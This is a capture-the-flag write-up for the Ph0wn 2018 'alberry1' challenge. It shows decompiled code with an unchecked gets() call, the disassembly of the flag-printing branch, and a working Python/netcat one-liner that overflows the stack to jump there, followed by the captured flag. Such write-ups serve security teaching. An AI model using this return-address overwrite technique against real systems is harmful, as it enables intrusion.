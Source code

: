 ```yaml
---
layout: post
title: "Ph0wn 2018 - alberry1"
mathjax: true

date: 2018-12-14
---
```


*Basic Stack buffer overflow in an arm binary*

<!--more-->

### Description

*TODO ADD*

### Details

Points:      ?

Category:    exploit

Validations: ?

### Solution

We were given a ELF binary file called [alberry1](/resources/2018/ph0wn/alberry1/alberry1).
The main function consist of reading a password to arm or disarm the alarm.

Reversing the checkPassword() function led to discover a buffer overflow:

```c
int checkPassword()
{
  int v0; // r0
  int result; // r0
  char v2; // [sp+4h] [bp-18h]

  gets(&v2); // BUFFER OVERFLOW
  v0 = strlen(&v2);
  hash2(&v2, v0, &hashBuffer);
  result = memcmp(&currentPasswd, &hashBuffer, 32);
  if ( !result )
    logged = 1;
  return result;
```

Looking in IDA pro shows that the buffer overflowed is 0x18 bytes long.

We need to found a way to leak the flag. The flag is read using a function called *readFlag()*. Inside the main function, there is a snippet that do exactly this:

```shell
.text:00011578 70 00 9F E5                             LDR     R0, =aAlarmDisarmed ; jumptable 00011548 case 1
.text:0001157C CC 22 00 EB                             BL      puts
.text:00011580 6C 10 9F E5                             LDR     R1, =flagDisarmed
.text:00011584 6C 00 9F E5                             LDR     R0, =aYourFlagIsS ; "Your flag is: %s\n"
.text:00011588 20 1F 00 EB                             BL      printf
```
The exploit is as simple as triggering the buffer overflow with 0x18 bytes of junk and the the address *0x011578* we found earlier. 

The exploit is:

```shell
 python2 -c 'print "A"*24 + "\x78\x15\x01\x00"' | nc 10.210.17.68 12345

############################################
# Welcome to Al Berry interface management #
############################################
#          Your alarm is *ARMED*           #
############################################

Password: 
Alarm disarmed
Your flag is: ph0wn{Enjoy_the_Silence}
```

Challenges resources are available in the [resources folder](https://github.com/duksctf/duksctf.github.io/tree/master/resources/2018/ph0wn/alberry1)

